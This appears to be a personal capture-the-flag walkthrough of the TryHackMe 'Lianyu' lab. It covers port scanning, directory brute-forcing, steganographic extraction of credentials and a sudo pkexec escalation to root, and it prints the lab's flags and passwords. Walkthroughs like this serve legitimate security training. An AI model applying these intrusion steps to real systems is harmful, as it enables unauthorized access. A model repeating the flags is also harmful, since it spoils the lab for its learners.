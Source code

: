 nmap -sV -sC -o nmap 10.10.228.74

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-18 03:01 EDT
Nmap scan report for 10.10.228.74
Host is up (0.33s latency).
Not shown: 995 closed ports
PORT     STATE    SERVICE   VERSION
21/tcp   open     ftp       vsftpd 3.0.2
22/tcp   open     ssh       OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp   open     http      Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp  open     rpcbind   2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46962/udp   status
|   100024  1          48228/tcp6  status
|   100024  1          55953/udp6  status
|_  100024  1          60623/tcp   status
6901/tcp filtered jetstream
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
                                                                                                                                                                                                        
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                          
Nmap done: 1 IP address (1 host up) scanned in 60.92 seconds    

using a longer wordlist as the common.txt doesnt show anything interesting
kali@kali:~/oscptraining/tryhackme/Lianyu$ gobuster dir -e -u http://10.10.228.74 -w /usr/share/wordlists/dirb/big.txt

http://10.10.228.74/.htaccess (Status: 403)
http://10.10.228.74/.htpasswd (Status: 403)
http://10.10.228.74/island (Status: 301)
http://10.10.228.74/server-status (Status: 403)

http://10.10.228.74/island (Status: 301)
found a codeword stated vigilante

kali@kali:~/oscptraining/tryhackme/Lianyu$ gobuster dir -e -u http://10.10.144.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

one more time as the common.txt couldnt find anything interesting

<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>

seems like we need to run gobuster again
kali@kali:~/oscptraining/tryhackme/Lianyu$ gobuster dir -e -u http://10.10.144.244 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x.ticket

got this
http://10.10.144.244/island/2100/green_arrow.ticket

This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
got to dehash this but tbh it's gonna be hard recognising it's base58...

user: vigilante
pwd: !#th3h00d

failed trying to log in with ssh, let's try ftp then


kali@kali:~/oscptraining/tryhackme/Lianyu$ ftp 10.10.144.244                                                                                                                                            
Connected to 10.10.144.244.220 (vsFTPd 3.0.2)                                                                                                                                                                                
Name (10.10.144.244:kali): vigilante                                                                                                                                                                    
331 Please specify the password.                                                                                                                                                                        
Password:                                                                                                                                                                                               
230 Login successful.                                                                                                                                                                                   
Remote system type is UNIX.                                                                                                                                                                             
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01 03:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05 11:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01 03:25 aa.jpg
226 Directory send OK.
ftp> 


get Leave_me_alone.png
get the remaining files 

opening up the pics doesnt show anything interesting, seems like we got to extract some stuff.
i couldnt open up Leave_me_alone.png as there's an error.
since the first eight bytes of a PNG file always contain the following values:

  (hexadecimal)           89  50  4e  47  0d  0a  1a  0a

let us edit the header

kali@kali:~/oscptraining/tryhackme/Lianyu$ xxd Leave_me_alone.png | head -n 1                                                                                                                                     
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR  

now we have a proper header and we can open the photo
"Just leave me a lone Here take what you want - password"
seems like it's the password for one of the pic

kali@kali:~/oscptraining/tryhackme/Lianyu$ steghide aa.jpg
steghide: unknown command "aa.jpg".
steghide: type "steghide --help" for help.
kali@kali:~/oscptraining/tryhackme/Lianyu$ steghide info aa.jpg
"aa.jpg":
  format: jpeg
  capacity: 11.0 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "ss.zip":
    size: 596.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
kali@kali:~/oscptraining/tryhackme/Lianyu$ ls
 aa.jpg   Leave_me_alone.png   namelist.txt   nmap  "Queen's_Gambit.png"   subdomains-top1million-110000.txt
kali@kali:~/oscptraining/tryhackme/Lianyu$ steghide extract -sf aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
kali@kali:~/oscptraining/tryhackme/Lianyu$ ls
 aa.jpg   Leave_me_alone.png   namelist.txt   nmap  "Queen's_Gambit.png"   ss.zip   subdomains-top1million-110000.txt
kali@kali:~/oscptraining/tryhackme/Lianyu$ unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: shado                   
kali@kali:~/oscptraining/tryhackme/Lianyu$ ls
 aa.jpg   Leave_me_alone.png   namelist.txt   nmap   passwd.txt  "Queen's_Gambit.png"   shado   ss.zip   subdomains-top1million-110000.txt
kali@kali:~/oscptraining/tryhackme/Lianyu$ cat shado
M3tahuman
kali@kali:~/oscptraining/tryhackme/Lianyu$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.


we got the password but no user, lets go back to the ftp to check if there's any other stuff we can find

ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01 06:55 slade
drwxr-xr-x    2 1001     1001         4096 May 05 11:10 vigilante

seems like slade is the user.


slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
                        --Felicity Smoak

slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec

slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
root@LianYu:~# cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825


okie rooted 
21 oct 2020 0101hr







